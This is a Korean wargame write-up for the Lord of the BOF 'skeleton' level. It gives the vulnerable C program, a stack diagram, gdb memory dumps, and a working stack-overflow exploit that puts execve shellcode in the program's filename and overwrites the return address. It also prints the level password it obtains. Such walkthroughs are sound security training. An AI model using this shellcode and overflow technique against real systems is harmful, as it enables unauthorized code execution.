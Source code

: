 ============================================================================================================
[lob] vampire
============================================================================================================

.. uml::
    
    @startuml

    start

    :Source Analysis;

    :Memory Structure;

    :Segmentation fault;

    :argv[1]의 주소값 변경;

    :RET 주소를 argv[1] 주소로 변경하여 공격 진행;
    
    stop

    @enduml

|

Source Analysis
============================================================================================================


해당 문제 소스코드는 다음과 같습니다.

.. code-block:: c

    /*
    The Lord of the BOF : The Fellowship of the BOF
        - skeleton
        - argv hunter
    */

    #include <stdio.h>
    #include <stdlib.h>

    extern char **environ;

    main(int argc, char *argv[])
    {
        char buffer[40];
        int i, saved_argc;

        if(argc < 2){
            printf("argv error\n");
            exit(0);
        }

        // egghunter
        for(i=0; environ[i]; i++)
            memset(environ[i], 0, strlen(environ[i]));

        if(argv[1][47] != '\xbf')
        {
            printf("stack is still your friend.\n");
            exit(0);
        }

        // check the length of argument
        if(strlen(argv[1]) > 48){
            printf("argument is too long!\n");
            exit(0);
        }

        // argc saver
        saved_argc = argc;

        strcpy(buffer, argv[1]);
        printf("%s\n", buffer);

        // buffer hunter
        memset(buffer, 0, 40);

        // ultra argv hunter!
        for(i=0; i<saved_argc; i++)
            memset(argv[i], 0, strlen(argv[i]));
    }

|

Memory Structure
============================================================================================================

스택 메모리 공간에 다음과 같이 들어가게 됩니다.

.. code-block:: console

    ================
    LOW     
    ----------------
    Buffer  (40byte) <- strcpy
    SFP     (4byte)
    RET     (4byte)
    argc    (4byte)
    argv    (4byte)
    ----------------
    HIGH    
    ================

|

Segmentation fault
============================================================================================================

버퍼오버플로우가 일어나는 지점을 확인합니다.

※ 시작시 bash2 명령을 입력하고 bash2 쉘 상태에서 진행해야 합니다.

.. code-block:: console

    $ ./skeleton `python -c 'print "a"*47'`
    stack is still your friend.

    $ ./skeleton `python -c 'print "a"*47+"\xbf"'`
    aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa▒
    Segmentation fault


|

exploit
============================================================================================================


argv[0]에 쉘코드 삽입
------------------------------------------------------------------------------------------------------------

기존에 사용한 쉘코드에는 \x2f 값이 있기 때문에 정상적으로 쉘코드가 동작하지 않습니다.

\x2f가 없는 쉘코드로 파일명을 생성하도록 합니다.

.. code-block:: console
    
    $ ln skeleton2 `python -c 'print "\x90"*40+"\x31\xc0\x50\xba\x11\x11\x11\x11\x81\xc2\x1e\x1e\x62\x57\x52\xba\x11\x11\x11\x11\x81\xc2\x1e\x51\x58\x5d\x52\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"'`

    $ gdb -q `python -c 'print "\x90"*40+"\x31\xc0\x50\xba\x11\x11\x11\x11\x81\xc2\x1e\x1e\x62\x57\x52\xba\x11\x11\x11\x11\x81\xc2\x1e\x51\x58\x5d\x52\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"'`

    (gdb) b* main
    Breakpoint 1 at 0x8048500
    (gdb) r `python -c 'print "a"*47+"\xbf"'`
    Starting program: /home/vampire/▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒1▒P▒▒▒bWR▒▒▒QX]R▒▒PS▒▒1Ұ
                                             ̀ `python -c 'print "a"*47+"\xbf"'`

    /bin/bash: /home/troll/.bashrc: Permission denied

    Breakpoint 1, 0x8048500 in main ()
    (gdb) x/100x $esp

    ==========================================================================
    0xbffffa0c:     0x400309cb      0x00000002      0xbffffa54      0xbffffa60
    0xbffffa1c:     0x40013868      0x00000002      0x08048450      0x00000000
    0xbffffa2c:     0x08048471      0x08048500      0x00000002      0xbffffa54
    0xbffffa3c:     0x08048390      0x080486ac      0x4000ae60      0xbffffa4c
    0xbffffa4c:     0x40013e90      0x00000002      0xbffffb4c      0xbffffbe6
    0xbffffa5c:     0x00000000      0xbffffc17      0xbffffc39      0xbffffc43
    0xbffffa6c:     0xbffffc51      0xbffffc70      0xbffffc80      0xbffffc99
    0xbffffa7c:     0xbffffcb4      0xbffffcbf      0xbffffccd      0xbffffd0e
    (중략)
    0xbfffff5c:     0x35333b31      0x682f003a      0x2f656d6f      0x706d6176
    0xbfffff6c:     0x2f657269      0x90909090      0x90909090      0x90909090
    0xbfffff7c:     0x90909090      0x90909090      0x90909090      0x90909090
    0xbfffff8c:     0x90909090      0x90909090      0x90909090      0x90909090
    0xbfffff9c:     0x90909090      0x90909090      0x90909090      0x90909090
    0xbfffffac:     0x90909090      0x90909090      0x90909090      0x90909090
    0xbfffffbc:     0x90909090      0x90909090      0x90909090      0x90909090
    0xbfffffcc:     0x90909090      0x90909090      0xba50c031      0x11111111
    0xbfffffdc:     0x1e1ec281      0xba525762      0x11111111      0x511ec281
    0xbfffffec:     0x89525d58      0x895350e3      0xb0d231e1      0x0080cd0b
    0xbffffffc:     0x00000000      Cannot access memory at address 0xc0000000
    ==========================================================================

program명 주소를 찾아서 RET로 덮어씌우면 됩니다.


RET 주소를 argv[0] 주소로 변경하여 공격 진행
------------------------------------------------------------------------------------------------------------

filename : nop(100 byte) + shellcode (39 byte) 

argv[1] : nop(44 byte) + argv[0] address

.. code-block:: console

    $ ./`python -c 'print "\x90"*100+"\x31\xc0\x50\xba\x11\x11\x11\x11\x81\xc2\x1e\x1e\x62\x57\x52\xba\x11\x11\x11\x11\x81\xc2\x1e\x51\x58\x5d\x52\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"'` `python -c 'print "a"*44+"\xbc\xff\xff\xbf"'`
    aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa▒▒▒▒

    bash$ whoami
    skeleton
    bash$ my-pass
    euid = 510
    shellcoder
